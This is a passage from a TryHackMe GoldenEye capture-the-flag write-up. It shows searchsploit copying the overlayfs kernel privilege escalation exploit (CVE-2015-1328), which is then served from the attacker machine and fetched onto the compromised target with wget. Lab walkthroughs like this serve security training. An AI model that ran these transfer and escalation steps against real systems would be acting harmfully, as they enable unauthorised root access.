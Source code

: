 <p class="message">
💡 You can find the keyword `overlay` from the task’s instructions:
”<i>This machine is vulnerable to the overlayfs exploit.</i>”

</p>

Copy the exploit path to the current directory using `-m` (`--mirror`) flag → Start **http.server** to transfer the file to the target machine:

```

┌──(kali㉿kali)-[~/TryHackMe/GoldenEye]
└─$ searchsploit -m linux/local/37292.c
Exploit: Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation
URL: https://www.exploit-db.com/exploits/37292
Path: /usr/share/exploitdb/exploits/linux/local/37292.c
Codes: CVE-2015-1328
Verified: True
File Type: C source, ASCII text, with very long lines (466)
Copied to: /home/kali/TryHackMe/GoldenEye/37292.c

┌──(kali㉿kali)-[~/TryHackMe/GoldenEye]
└─$ ls -l 37292.c
-rw-r--r-- 1 kali kali 4968 Sep 3 12:29 37292.c

┌──(kali㉿kali)-[~/TryHackMe/GoldenEye]
└─$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

```

On target machine, using `wget` to get the exploit file:

```

<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ wget http://10.9.63.75:8000/37292.c
<.9/plugins/spellchecker$ wget http://10.9.63.75:8000/37292.c
--2023-09-03 09:30:22-- http://10.9.63.75:8000/37292.c
Connecting to 10.9.63.75:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4968 (4.9K) [text/x-csrc]
Saving to: '37292.c'

     0K ....                                                  100% 5.50M=0.001s

2023-09-03 09:30:22 (5.50 MB/s) - '37292.c' saved [4968/4968]

<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ ls -l 37292.c
ls -l 37292.c
-rw-rw-rw- 1 www-data www-data 4968 Sep 3 09:29 37292.c

```

You can read more details about the vulnerability and the exploit manual from this [page](https://www.exploit-db.com/exploits/37292) or from the file path `linux/local/37292.txt`.
